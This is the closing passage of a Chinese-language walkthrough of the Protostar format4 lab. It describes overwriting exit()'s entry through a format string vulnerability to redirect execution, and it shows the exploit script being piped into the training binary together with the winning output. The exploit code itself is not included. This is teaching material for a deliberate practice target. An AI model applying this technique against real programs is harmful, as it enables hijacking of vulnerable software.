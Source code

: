完美！我们成功地利用了格式字符串漏洞来覆盖`exit()`的入口点，从而重定向我们的执行流来打印出获胜的语句。

我们还可以将最终的漏洞脚本直接运行到`format4`二进制文件中:

```
**$ python /home/user/format4/exploit.py | /opt/protostar/bin/format4**
...(snip of A LOT OF white spaces)...
                                         b7fd8420
**code execution redirected! you win**
```

感谢阅读！

![](img/3735507d2c93e53a5b9d4423146e377a.png)
